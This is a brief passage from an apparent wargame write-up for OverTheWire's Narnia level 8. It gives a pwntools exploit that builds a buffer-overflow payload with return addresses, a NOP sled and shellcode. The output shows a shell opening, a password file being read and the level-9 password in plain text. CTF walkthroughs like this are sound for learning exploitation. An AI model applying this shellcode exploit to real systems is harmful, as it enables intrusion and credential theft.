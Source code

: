 ```python
    print(hex(address))
    payload = 'A'*20 + p32(address) +  p32(ret)*2 + p32(address) + '\x90'*16 + shellcode
    p = process(['/narnia/narnia8', payload])
    p.interactive()
    address-=i
```

```bash
[*] Got EOF while sending in interactive
0xffffd842
[+] Starting local process '/narnia/narnia8': pid 8984
[*] Switching to interactive mode
AAAAAAAAAAAAAAAAAAAAB\xffn\xffn\xffB\xff\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x901Qh//shh/bin\x89
$                       whoami
narnia9
$ cat /etc/narnia_pass/narnia9
eiL5fealae
```

## Narnia9 - password : eiL5fealae

Done!